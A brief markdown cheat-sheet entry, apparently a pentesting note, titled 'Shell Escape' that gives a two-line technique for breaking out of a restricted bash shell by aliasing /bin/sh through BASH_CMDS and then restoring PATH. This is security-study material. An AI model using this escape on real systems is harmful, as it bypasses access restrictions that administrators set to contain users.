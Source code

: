 # Shell Escape

## Shell Escape 1

```text
BASH_CMDS[a]=/bin/sh;a
export PATH=$PATH:/bin/:/usr/bin
```

Shell escape -&gt; one note


